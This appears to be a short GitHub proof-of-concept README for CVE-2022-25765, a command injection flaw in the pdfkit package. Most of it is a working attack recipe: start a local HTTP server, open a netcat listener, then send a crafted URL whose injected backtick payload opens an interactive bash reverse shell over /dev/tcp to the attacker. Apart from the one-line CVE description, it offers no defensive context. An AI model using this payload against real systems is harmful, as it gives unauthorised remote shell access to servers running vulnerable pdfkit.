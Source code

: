 # PDFkit-CMD-Injection 

CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

### Start a HTTP server
<pre>
1- python3 -m http.server 80
</pre>
### Start a netcat listener
<pre>
2- nc -lnvp 'Target Port'
</pre>
### Make a request with CURL
<pre>
3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target_ADRESS/LISTENING_PORT"<&1'`'}
</pre>

